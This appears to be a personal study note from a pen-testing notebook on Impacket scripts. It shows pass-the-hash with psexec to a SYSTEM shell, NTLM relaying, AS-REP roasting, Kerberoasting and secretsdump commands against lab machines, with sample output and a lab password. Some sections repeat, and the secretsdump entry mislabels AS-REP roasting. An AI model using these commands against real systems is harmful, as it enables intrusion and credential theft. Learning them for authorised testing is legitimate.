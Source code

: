 
# Python Impacket
Init.

Python [impacket](https://github.com/fortra/impacket/tree/master) is an open-source collection of scripts designed to interact with common [networking](/networking/OSI/network-layer.md) protocols. Many of the scripts can be used in pen-testing, especially against Windows targets.
## Use
### `impacket-scripts` Package
[`impacket-scripts`](https://www.kali.org/tools/impacket-scripts/)  is a [python](../../../../coding/languages/python/python.md) package which will allow you to access all of impacket's scripts with this commons syntax: `impacket-<script name>`:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.50.212.....
[*] Found writable share ADMIN$
[*] Uploading file nvaXenHl.exe
[*] Opening SVCManager on 192.168.50.212.....
[*] Creating service MhCl on 192.168.50.212.....
[*] Starting service MhCl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
FILES02

C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::7992:61cd:9a49:9046%4
   IPv4 Address. . . . . . . . . . . : 192.168.50.212
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

C:\Windows\system32> whoami
nt authority\system
```
## Common Scripts
(I'm keeping a list here for my own use/ reference). 
### [`psexec.py`](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
![See my OSCP notes on using `psexec.py` to pass the hash](../../../../OSCP/password-attacks/passing-NTLM.md#Using%20`psexec.py`)
### `wmiexec.py`
![See my OSCP notes on using `wmiexec.py` to pass the hash](../../../../OSCP/password-attacks/passing-NTLM.md#Using%20`wmiexec.py`)

### [`smbrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/smbrelayx.py)
### [`ntlmrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
- `-i`: interactive (will give you a shell)
### [`GetNPUsers.py`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
Get's TGTs for users in an [active-directory](../../../hidden/HTB-notes/active-directory.md) environment who have *[kerberos](../../../networking/protocols/kerberos.md) pre-authentication turned off.* This is useful to know because having pre-auth turned off means we can ask for their TGTs without supplying a password. 

Once you have a TGT you can crack it with something like [john](../cracking/john.md).
#### Example
```bash
python3 GetNPUsers.py 
```
### [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
```bash
impacket-GetUserSPNs -usersfile [users.lst](https://users.lst) -dc-ip 10.10.10.175 -request 'EGOTISTICAL-BANK.LOCAL/' -no-pass
```
### [`secretdump.py`](https://github.com/fortra/impacket/blob/master/impacket/examples/secretsdump.py)
Will attempt to dump hashes from a remote machine *without executing an agent there*. Gets [kerberos](../../../../networking/protocols/kerberos.md) TGTs from users which have the *`UF_DONT_REQUIRE_PREAUTH`* (which means they have pre-authentication turned off). 

From these types of users we can get their *AS_REP* which is *partially encrypted using their password*. 

Once we have the AS-REP, we can give it to [hashcat](../../cracking/tools/hashcat.md) for cracking (and getting the plaintext password).
### [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
```bash
impacket-GetUserSPNs -usersfile users.lst -dc-ip 10.10.10.175 -request 'EGOTISTICAL-BANK.LOCAL/' -no-pass
```
### [`secretdump.py`](https://github.com/fortra/impacket/blob/master/impacket/examples/secretsdump.py)
```bash
secretsdump.py 'egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
````
- The domain, user, password, and IP should be surround in quotes
### `mssqlclient.py`
[`mssqlclient.py`](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) can be used to connect to a remote [MSSQL](../../../../CLI-tools/windows/MSSQL.md) server (on a Windows target).
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (SQLPLAYGROUND\Administrator  dbo@master)>
```
- `-windows-auth` will authenticate you if you supply a username and password *and force [NTLM](../../../../networking/protocols/NTLM.md) authentication*.

> [!Resources]
> - [Impacket GitHub](https://github.com/fortra/impacket/tree/master)
. - [`impacket-scripts`](https://www.kali.org/tools/impacket-scripts/) p
